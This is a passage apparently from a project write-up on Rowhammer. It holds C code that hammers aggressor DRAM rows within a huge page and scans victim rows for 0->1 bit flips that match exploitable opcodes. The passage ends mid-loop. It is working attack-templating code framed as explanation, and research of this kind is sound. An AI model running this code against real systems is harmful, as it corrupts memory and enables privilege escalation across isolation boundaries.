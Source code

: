 When doing this, we hammer all the possible combinations of _\<aggressor-victim-aggressor\>_ rows which we can over all the banks that we can address with our huge page.

An example of looking for 0 -> 1 bit flips is shown below:

```C
static template_t * hammer_bank(uint8_t *buf, uint16_t bank_n)
{
	dram_addr_t dram_addr;
	uint8_t *p_addr, *v_addr, *agg1, *agg2, *vic;
	uint8_t **addrs;
	unsigned i, j, k;
	template_t *template;

	template = NULL;

	addrs = malloc(sizeof(uint8_t *) * CONTROLLED_ROWS);
	assert(addrs);

    uint64_t dram_no = 0;
	
	//save all the banks we can address
    for(i = 0; i < NUM_FUNC_MASKS; ++i) {
        uint64_t bit = (bank_n & (1 << i)) > 0 ? 1 : 0;
        dram_addr.ch_to_bank[i] = bit;
        dram_no |= bit << i;
    }

    pr_info("DRAM bank no = %s\n", bit_string(dram_no));

    for(i = 0; i < NUM_FUNC_MASKS; i++){
        pr_info("BIT %d: %ld\n", i, dram_addr.ch_to_bank[i]);
    }
	
	// save all the addresses which map to consecutive rows in an array
	for(i = 0; i < CONTROLLED_ROWS; ++i) {
		dram_addr.row = i;
		p_addr = (uint8_t *) dram_to_physical(dram_addr);
		v_addr = (uint8_t *) ((uintptr_t) p_addr | (uintptr_t) buf);
		pr_info("Row %lu -> %p\n", dram_addr.row, v_addr);
		addrs[i] = v_addr;
	}

	//hammer all the A-V-A combinations in our array.
	for(i = 0; i < CONTROLLED_ROWS - 4; ++i) {
		agg1 = addrs[i];
		agg2 = addrs[i + 2];
		vic = addrs[i + 1];
		// striping pattern
		memset(agg1 + ENTROPY_PADDING_SIZE, 0xFF, ROW_SIZE - ENTROPY_PADDING_SIZE);
		memset(agg2 + ENTROPY_PADDING_SIZE, 0xFF, ROW_SIZE - ENTROPY_PADDING_SIZE);
		memset(vic + ENTROPY_PADDING_SIZE, 0x00, ROW_SIZE - ENTROPY_PADDING_SIZE);
		pr_info("Hammering agg1 %p ---- vic %p ---- agg2 %p\n", agg1, vic, agg2);
		
		//hammer the aggressor rows
		for(unsigned k = 0; k < hammer_conf->hammering_rounds; k++){
			hammer(addrs[i], addrs[i + 2], hammer_conf->num_row_activations);
		}

		/* Check for templates */
		for(j = ENTROPY_PADDING_SIZE; j < ROW_SIZE; ++j) {
			if(vic[j] != 0x00) {
				pr_info("victim flipped addr = %p, was 0x00 is now 0x%x\n", vic + j, vic[j]);
				for (k = 0; k < NUM_EXPLOITABLE_OPCODES; k++){
```